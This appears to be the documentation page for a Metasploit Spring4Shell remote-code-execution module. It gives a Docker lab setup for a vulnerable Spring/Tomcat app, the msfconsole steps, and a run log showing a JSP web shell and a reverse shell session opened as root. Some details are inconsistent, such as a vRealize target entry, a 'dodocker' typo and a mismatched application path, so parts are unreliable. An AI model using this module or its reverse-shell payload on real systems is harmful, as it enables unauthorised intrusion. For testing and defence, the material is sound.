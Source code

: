 ## Vulnerable Application

### Description

The vulnerability impacts Spring MVC and Spring WebFlux applications running on JDK 9+. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

### Setup

Clone vanila spring application `git clone https://spring.io/guides/gs/handling-form-submission/`
get into the directory `handling-form-submission/complete/`

Change the files as follow

<details>
<summary>pom.xml</summary>
<p>

```diff
--- a/complete/pom.xml
+++ b/complete/pom.xml
@@ -8,6 +8,7 @@
                <version>2.6.3</version>
                <relativePath/> <!-- lookup parent from repository -->
        </parent>
+       <packaging>war</packaging>
        <groupId>com.example</groupId>
        <artifactId>handling-form-submission-complete</artifactId>
        <version>0.0.1-SNAPSHOT</version>
@@ -20,24 +21,35 @@
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-thymeleaf</artifactId>
+                       <version>2.6.3</version>
                </dependency>
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-web</artifactId>
+                        <version>2.6.3</version>
                </dependency>

                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-test</artifactId>
+                        <version>2.6.3</version>
                        <scope>test</scope>
                </dependency>
+               <dependency>
+                       <groupId>org.springframework.boot</groupId>
+                       <artifactId>spring-boot-starter-tomcat</artifactId>
+                       <version>2.6.3</version>
+                       <scope>provided</scope>
+               </dependency>
        </dependencies>

        <build>
+               <finalName>handlingformsubmission</finalName>
                <plugins>
                        <plugin>
                                <groupId>org.springframework.boot</groupId>
                                <artifactId>spring-boot-maven-plugin</artifactId>
+                                <version>2.6.3</version>
                        </plugin>
                </plugins>
        </build>
```

</p>
</details>



<details>
<summary>HandlingFormSubmissionApplication.java</summary>
<p>


```diff
--- a/complete/src/main/java/com/example/handlingformsubmission/HandlingFormSubmissionApplication.java
+++ b/complete/src/main/java/com/example/handlingformsubmission/HandlingFormSubmissionApplication.java
@@ -2,9 +2,10 @@ package com.example.handlingformsubmission;

 import org.springframework.boot.SpringApplication;
 import org.springframework.boot.autoconfigure.SpringBootApplication;
+import org.springframework.boot.web.servlet.support.SpringBootServletInitializer;

 @SpringBootApplication
-public class HandlingFormSubmissionApplication {
+public class HandlingFormSubmissionApplication extends SpringBootServletInitializer {

        public static void main(String[] args) {
                SpringApplication.run(HandlingFormSubmissionApplication.class, args);
```

</p>
</details>

Create a Dockerfile in the same directory

```Dockerfile
FROM tomcat:9.0.59-jdk11

ADD src/ /root/src
ADD pom.xml /root

#  Build spring app
RUN apt update && apt install maven -y
WORKDIR /root/
RUN mvn clean package

#  Deploy to tomcat
RUN mv target/handlingformsubmission.war /usr/local/tomcat/webapps/

WORKDIR /usr/local/tomcat/

EXPOSE 8080
CMD ["catalina.sh", "run"]
```
Build an image

```bash
docker build --rm --no-cache -t spring4shell .
```

Run a container

```bash
dodocker run --rm -it -p 9090:8080 spring4shell
```

The application must be avaliable at `http://localhost:9090/handlingformsubmission/greeting`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`vRealize Operations Manager < 8.3.0`


### Version and OS
This module has been tested successfully on Apache Tomcat 9.0.59, Openjdk 11.0.14.1 and spring-webmvc-5.3.15


## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
2. `use exploit/multi/http/spring4shell_rce`
3. set `RHOSTS`, `RPORT` and `TARGETURI`
4. Confirm the target is vulnerable: `check`
5. It come already with a default payload `java/jsp_shell_reverse_tcp`
7. set `LHOST` and `LPORT`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Spring application running on Tomcat. By default, the path is  `/`.

### PAYLOAD_PATH (required)

The path to write the payload (Default: `webapps/ROOT`).


## Scenarios Spring Web 5.3.15 Openjdk 11
```
msf6 exploit(multi/http/spring4shell_rce) > exploit 

[*] Started reverse TCP handler on 192.168.137.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Resetting Log Variables
[*] Modifying Log Configurations
[*] Send the packet that writes the web shell
[*] Executing JSP payload
[*] http://127.0.0.1:9090/helloworld/greeting/o39jGjG4q4Pje.jsp
[!] Tried to delete o39jGjG4q4Pje.jsp, unknown result
[*] Command shell session 2 opened (192.168.137.1:4444 -> 192.168.137.1:52314 ) at 2022-04-06 23:04:00 +0200

id
uid=0(root) gid=0(root) groups=0(root)

java --version
openjdk 11.0.14.1 2022-02-08
OpenJDK Runtime Environment 18.9 (build 11.0.14.1+1)
OpenJDK 64-Bit Server VM 18.9 (build 11.0.14.1+1, mixed mode, sharing)

ls -l /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring*
-rw-r----- 1 root root  382856 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-aop-5.3.15.jar
-rw-r----- 1 root root  697431 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-beans-5.3.15.jar
-rw-r----- 1 root root 1423985 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-boot-2.6.3.jar
-rw-r----- 1 root root 1627754 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-boot-autoconfigure-2.6.3.jar
-rw-r----- 1 root root   29397 Feb  1  1980 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-boot-jarmode-layertools-2.6.3.jar
-rw-r----- 1 root root 1271872 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-context-5.3.15.jar
-rw-r----- 1 root root 1480617 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-core-5.3.15.jar
-rw-r----- 1 root root  288784 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-expression-5.3.15.jar
-rw-r----- 1 root root   24440 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-jcl-5.3.15.jar
-rw-r----- 1 root root 1638528 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-web-5.3.15.jar
-rw-r----- 1 root root 1028435 Apr  5 19:59 /usr/local/tomcat/webapps/helloworld/WEB-INF/lib/spring-webmvc-5.3.15.jar

java -cp /usr/local/tomcat/lib/catalina.jar org.apache.catalina.util.ServerInfo
Server version: Apache Tomcat/9.0.59
Server built:   Feb 21 2022 21:01:10 UTC
Server number:  9.0.59.0
OS Name:        Linux
OS Version:     5.10.60.1-microsoft-standard-WSL2
Architecture:   amd64
JVM Version:    11.0.14.1+1
JVM Vendor:     Oracle Corporation

exit
[*] 127.0.0.1 - Command shell session 2 closed.
msf6 exploit(multi/http/spring4shell_rce) > 
```
